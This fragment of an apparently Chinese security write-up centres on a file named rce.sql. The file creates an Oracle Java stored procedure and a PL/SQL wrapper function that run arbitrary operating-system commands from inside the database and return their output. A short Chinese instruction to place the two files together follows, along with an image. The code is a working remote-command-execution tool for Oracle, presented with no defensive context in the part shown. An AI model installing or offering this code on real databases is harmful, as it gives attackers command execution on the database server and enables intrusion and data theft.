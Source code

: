 rce.sql

```plain
create or replace and resolve java source named "oraexec" as
import java.lang.*;
import java.io.*;
public class oraexec
{
    public static String execCommand(String command) throws IOException, InterruptedException {
        Runtime rt = Runtime.getRuntime();
        int bufSize = 4096;
        byte buffer[] = new byte[bufSize];
        String rc = "";
        int len;
        try{
            Process p = rt.exec(command);
            BufferedInputStream bis =
                    new BufferedInputStream(p.getInputStream(), bufSize);
            while ((len = bis.read(buffer, 0, bufSize)) != -1){
                rc += new String(buffer).split("\0")[0];;
            }
            bis.close();
            p.waitFor();
            return rc;
        } catch (Exception e) {
            rc = e.getMessage();
        }
        finally
        {
            return rc;
        }
    }
}
/
create or replace
function javae(p_command in varchar2) return varchar2
as
language java
name 'oraexec.execCommand(java.lang.String) return String';
/
```

把这两个文件放到一个位置

[![](assets/1710899076-bd01e50df1765e0d449f0b87dd9c594f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101211-c831e0da-d5de-1.png)
